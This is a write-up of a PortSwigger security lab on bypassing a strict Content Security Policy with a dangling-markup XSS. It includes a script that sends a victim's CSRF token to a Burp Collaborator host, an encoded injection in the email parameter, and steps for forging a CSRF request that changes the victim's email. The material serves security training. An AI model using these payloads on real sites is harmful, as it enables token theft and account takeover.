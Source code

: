 # 25. Reflected XSS protected by very strict CSP, with dangling markup attack
This lab using a strict CSP that blocks outgoing requests to external web sites.
To solve the lab, first perform a cross-site scripting attack that bypasses the CSP and exfiltrates a simulated victim user's CSRF token using Burp Collaborator. You then need to change the simulated user's email address to `hacker@evil-user.net`.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example: `<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`

**Analysis**:
1. Log in to the lab using the account provided above. Examine the change email function. Observe that there is an XSS vulnerability in the `email` parameter.
2. Go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Back in the lab, go to the exploit server and add the following code, replacing `YOUR-LAB-ID` and `YOUR-EXPLOIT-SERVER-ID` with your lab ID and exploit server ID respectively, and replacing `YOUR-COLLABORATOR-ID` with the payload that you just copied from Burp Collaborator.
```javascript
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```
4. Click "Store" and then "Deliver exploit to victim". When the user visits the website containing this malicious script, if they click on the "Click me" link while they are still logged in to the lab website, their browser will send a request containing their CSRF token to your malicious website. You can then steal this CSRF token using Burp Collaborator.
5. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see an HTTP interaction that was initiated by the application. Select the HTTP interaction, go to the request tab, and copy the user's CSRF token.
6. With Burp's Intercept feature switched on, go back to the change email function of the lab and submit a request to change the email to any random address.
7. In Burp, go to the intercepted request and change the value of the email parameter to `hacker@evil-user.net`.
8. Right-click on the request and, from the context menu, select "Engagement tools" and then "Generate CSRF PoC". The popup shows both the request and the CSRF HTML that is generated by it. In the request, replace the CSRF token with the one that you stole from the victim earlier.
9. Click "Options" and make sure that the "Include auto-submit script" is activated.
10. Click "Regenerate" to update the CSRF HTML so that it contains the stolen token, then click "Copy HTML" to save it to your clipboard.
11. Drop the request and switch off the intercept feature.
12. Go back to the exploit server and paste the CSRF HTML into the body. You can overwrite the script that we entered earlier.
13. Click "Store" and "Deliver exploit to victim". The user's email will be changed to `hacker@evil-user.net`.
